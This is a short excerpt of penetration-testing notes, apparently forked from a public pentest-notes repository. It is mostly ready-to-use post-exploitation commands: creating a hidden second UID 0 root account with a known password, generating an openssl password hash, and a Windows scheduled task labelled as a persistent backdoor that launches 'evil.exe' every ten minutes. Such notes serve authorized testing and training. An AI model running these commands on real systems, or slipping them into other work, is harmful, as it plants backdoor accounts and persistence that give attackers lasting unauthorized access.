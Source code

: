 ### Creating Another root User

```bash
useradd -u0 -g0 -o -s /bin/bash -p `openssl passwd yourpass` rootuser
```

### Generating OpenSSL Password

```bash
openssl passwd -1 password 
# output $1$YKbEkrkZ$7Iy/M3exliD/yJfJVeTn5.
```

### Persistent Back Doors

```text
# Launch evil.exe every 10 minutes
schtasks /create /sc minute /mo 10 /tn "TaskName" /tr C:\Windows\system32\evil.exe
```

This was inspired by and forked/adapted/updated from [Dostoevsky's Pentest Notes](https://github.com/dostoevskylabs/dostoevsky-pentest-notes).

